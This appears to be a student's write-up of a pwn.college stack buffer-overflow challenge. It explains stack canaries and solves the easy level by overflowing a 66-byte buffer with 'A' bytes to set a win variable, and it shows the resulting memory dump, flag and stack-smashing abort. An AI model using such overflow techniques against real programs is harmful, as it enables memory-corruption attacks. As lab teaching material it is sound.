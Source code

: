 # Easy

### understanding the code 

```c 
uint64_t sp_;  // rsp register (Stack pointer)
uint64_t bp_;  // rbp register (base pointer)
uint64_t sz_;  // size of current stack frame (sp_ - bp_)
uint64_t cp_;  // current pointer
uint64_t cv_;  // canary value
uint64_t si_;
uint64_t rp_;  // return pointer

#define GET_SP(sp) asm volatile ("mov %0, rsp" : "=r"(sp) : : );  // stores the value of rsp and moves it into %0 register and then stores it in sp_ variable
#define GET_BP(bp) asm volatile ("mov %0, rbp" : "=r"(bp) : : );  // stores the value of rbp and moves it into %0 register and then stores it in bp_ variable
#define GET_CANARY(cn) asm volatile ("mov %0, QWORD PTR [fs:0x28]" : "=r"(cn) : : );
// fs is a segment register are used to point to a specific memory area on the thread local storage(not on stack) where the original canary value is stored
// The canary is stored at an offset x28 from the value in fs register
// the canary value is retreived and stored in cn variable
// QWORD PTR is just used to speciy that quad word ie 2*4 = 8 bytes are read from that pointer location 
#define GET_FRAME_WORDS(sz_, sp, bp, rp_) GET_SP(sp); GET_BP(bp); sz_ = (bp-sp)/8+2; rp_ = bp+8;
#define FIND_CANARY(cnp, cv, start)                                     \
  {                                                                     \
    cnp = start;                                                        \
    GET_CANARY(cv);                                                     \
    while (*(uint64_t *)cnp != cv) cnp = (uint64_t)cnp - 8;   \ // finds the canary value on the stack by iterating backward from the start
  }
```

### What is Canary?
A canary is used to protect the stack frame from buffer overflows. A random value is placed between the allocated memory for local variables and return address. If a buffer overflow occurs then this canary value is altered.
Before returning, the canary value on the stack is matched with the original canary stored on the thread local storage (TLS) pointed at by fs register. If they do not match, the process is terminate. 

&nbsp;

### The challenge

```c 
struct
    {
        char input[66];
        int win_variable;
    } data  = {0} ;
```

The flag is printed only when win_variable is not null but the program never asks for an input for it. 
So We have to overflow input array so that the win_variable is also altered. 

So if we send a value that is bigger than 66 bytes we can write to the win_variable as well.
 
    Send your payload (up to 4096 bytes)!

    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    You sent 120 bytes!

Since is setn 120 bytes i could also potentially overwrite the canary. 


    The program's memory status:
    - the input buffer starts at 0x7ffd3ae9c420
    - the saved frame pointer (of main) is at 0x7ffd3ae9c470
    - the saved return address (previously to main) is at 0x7ffd3ae9c478
    - the saved return address is now pointing to 0x4141414141414141.
    - the canary is stored at 0x7ffd3ae9c468.
    - the canary value is now 0x4141414141414141.
    - the address of the win variable is 0x7ffd3ae9c464.
    - the value of the win variable is 0x41414141.


The canary value is checked only before returning so the program continues to run and we get our flag 

    You win! Here is your flag:
    pwn.college{Y_nnvCk_75ZMaby6UK2VlmlJL2X.0VO4IDL5kzM1czW}

But since we also changed the canary, the program does not end smoothly. It is terminated before returning. 


    Goodbye!
    *** stack smashing detected ***: terminated
    Aborted

&nbsp;

***

# Hard
In this challenge we do not get a helpful debug output so we will use gdb to identify where the win_variable is and what the value of canary is
